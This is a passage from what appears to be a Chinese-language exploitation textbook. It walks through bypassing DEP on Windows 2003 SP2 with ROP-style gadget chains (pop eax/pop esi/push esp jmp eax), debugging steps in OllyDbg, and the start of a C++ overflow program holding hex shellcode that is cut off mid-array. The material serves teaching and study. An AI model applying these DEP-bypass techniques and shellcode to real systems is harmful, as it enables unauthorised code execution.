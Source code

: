 按照图 12.3.13 中布局布置好 shellcode 后将程序重新编译，用 OllyDbg 加载程序，我们建 议您在 0x7C93CD6F 处下断点，待程序中断后，我们按 F8 键单步运行程序，并注意各指令对 堆栈及程序流程的影响，理解这种 shellcode 的布置思路。执行完 JMP ESP 后就可以看到程序 转入 shellcode，如图 12.3.14 所示。 

<img src="images/09/成功转入shellcode.png">

继续运行程序就可以看到熟悉的对话框。 

补充一点，微软在 Windows 2003 SP2 以后对 LdrpCheckNXCompatibility 函数进行了少许 修改，对我们影响大的是该函数在执行过程中会对 ESI 指向的内存附近进行操作，如图 12.3.16 所示。 这就要保证 ESI 指向的内存为可写内存，前边我们已经介绍过了调整 EBP 的方法，大家可以利用类似的指令如 ```push esp pop esi retn``` 来调整 ESI，这些指令显示在 OllyFindAddr 插件中 Disable DEP→Disable DEP >=2003 SP2 搜索结果的 step4 部分。 

但这些指令不是很好找到的，这里介绍一种变通的方法。 
- （1）找到 pop eax retn 指令，并让程序转入该位置执行。 
- （2）找到一条 pop esi retn 的指令，并保证在执行（1）中 pop eax 时它的地址位于栈顶，这样就可以把该地址放到 eax 中。 
- （3）找到 push esp jmp eax 指令，并转入执行。 这样就相当于执行了 push esp pop esi retn，esi 被指到了可写位置。

下边我们给出一种可以 在 Windows 2003 SP2 下边成功溢出的代码，大家可以自行调试，感受一下跳板执行选取和 shellcode 布局的思路。代码运行环境为 Windows 2003 SP2 中文版，代码中的各跳板地址可能 需要重新调试。 

```c++

#include<stdlib.h>
#include<string.h>
#include<stdio.h>
#include<windows.h> 

charshellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
```